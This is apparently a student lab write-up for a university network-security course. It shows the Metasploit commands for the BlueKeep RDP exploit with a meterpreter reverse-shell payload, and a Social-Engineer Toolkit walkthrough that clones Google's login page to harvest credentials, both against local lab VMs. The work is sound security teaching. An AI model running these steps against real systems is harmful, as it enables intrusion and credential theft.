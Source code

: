 ```yaml
---
title: A&D of Network Security - Lab 13
tags: [NTU, NTU_PADNS]

category: "Security > Course > NTU PADNS"
---
```


# A&D of Network Security - Lab 13
###### tags: `Practicum of A&D of NS` `NTU`

## Metasploit with Bluekeep Vulnerability (CVE-2019-0708)
### Setting up environment
* Open Windows 7 and Kali-Linux with `localhost only` mode
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Skg3sJ93Hh.png)
    
    ![](https://hackmd.io/_uploads/ByyTJqnHh.png)
    :::
* Then we can note that the IP of these two machines are different:
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/H1gOg5hSn.png)
    
    ![](https://hackmd.io/_uploads/H1VSlcnB3.png)
    :::
    Now, we know `Win7`'s IP: `192.168.56.101`
    Kali-Linux's IP: `192.168.56.102`

* Test the connection of these machines
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/HJ3D-5hS2.png)

    ![](https://hackmd.io/_uploads/S1eSW5hB3.png)
    :::
* Always allow the remote desktop connection of `Win7`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Hk0yzchB3.png)
    
    ![](https://hackmd.io/_uploads/HJQxfc3Sh.png)
    :::

### Try to Exploit
* Open Metasploit in Kali-Linux
    ```bash!
    $ use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    $ info # Can check the mode you'd like to use
    $ set rhost 192.168.56.101 # set remote host IP -> victim(Win7)
    $ set lhost 192.168.56.102 # set local host IP -> attacker(Kali-Linux)
    $ set target 2 # For virtual-box mode
    $ set payload windows/x64/meterpreter/reverse_tcp # Set the exploited payload
    $ check # Check if the victim can be exploited or not
    $ exploit # Actually attack
    ```
    :::info
    Sometimes the attack will not always success, you must try until it success.
    :::
    
    :::spoiler Detailed Screenshot
    ![](https://hackmd.io/_uploads/H1PUwq2S3.png)
    ![](https://hackmd.io/_uploads/ByQ6wqnHh.png)
    :::

### Remote Desktop

## Social Engineering in Kali-Linux
1. Set up the network environment same as the lab above
2. Open Social Engineering Toolkit(root) in Kali-Linux
3. Enter Command
    ```bash!
    ...
       1) Spear-Phishing Attack Vectors
       2) Website Attack Vectors
       3) Infectious Media Generator
       4) Create a Payload and Listener
       5) Mass Mailer Attack
       6) Arduino-Based Attack Vector
       7) Wireless Access Point Attack Vector
       8) QRCode Generator Attack Vector
       9) Powershell Attack Vectors
      10) Third Party Modules

      99) Return back to the main menu.

    set> 2
    ...
       1) Java Applet Attack Method
       2) Metasploit Browser Exploit Method
       3) Credential Harvester Attack Method
       4) Tabnabbing Attack Method
       5) Web Jacking Attack Method
       6) Multi-Attack Web Method
       7) HTA Attack Method

      99) Return to Main Menu

    set:webattack>3
    ...
       1) Web Templates
       2) Site Cloner
       3) Custom Import

      99) Return to Webattack Menu

    set:webattack>1
    [-] Credential harvester will allow you to utilize the clone capabilities within SET
    [-] to harvest credentials or parameters from a website as well as place them into a report
    ...
    Enter the IP address for POST back in Harvester/Tabnabbing: 192.168.56.102 # Must using Kali-Linux IP
    ...
    -------------------------------------------------------

      1. Java Required
      2. Google
      3. Twitter

    set:webattack> Select a template:2    # You can also use other templates

    [*] Cloning the website: http://www.google.com                                                                     
    [*] This could take a little bit...                                                                                

    The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
    [*] The Social-Engineer Toolkit Credential Harvester Attack
    [*] Credential Harvester is running on port 80                                                                     
    [*] Information will be displayed to you as it arrives below:

    ```
4. Open Chrome in Win7 and enter Kali IP and enter your account/password
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/SJBgpB1In.png)
    :::
5. Check Kali-Linux Terminal
    ```bash!
    192.168.56.101 - - [27/May/2023 05:25:50] "GET / HTTP/1.1" 200 -
    192.168.56.101 - - [27/May/2023 05:26:48] "GET /favicon.ico HTTP/1.1" 404 -
    [*] WE GOT A HIT! Printing the output:
    PARAM: GALX=SJLCkfgaqoM
    PARAM: continue=https://accounts.google.com/o/oauth2/auth?zt=ChRsWFBwd2JmV1hIcDhtUFdldzBENhIfVWsxSTdNLW9MdThibW1TMFQzVUZFc1BBaURuWmlRSQ%E2%88%99APsBz4gAAAAAUy4_qD7Hbfz38w8kxnaNouLcRiD3YTjX
    PARAM: service=lso
    PARAM: dsh=-7381887106725792428
    PARAM: _utf8=â
    PARAM: bgresponse=js_disabled
    PARAM: pstMsg=1
    PARAM: dnConn=
    PARAM: checkConnection=
    PARAM: checkedDomains=youtube
    POSSIBLE USERNAME FIELD FOUND: Email=test123
    POSSIBLE PASSWORD FIELD FOUND: Passwd=123456
    PARAM: signIn=Sign+in
    PARAM: PersistentCookie=yes
    [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
    ```
6. Done
We try to fetch the victim's account using fake web template...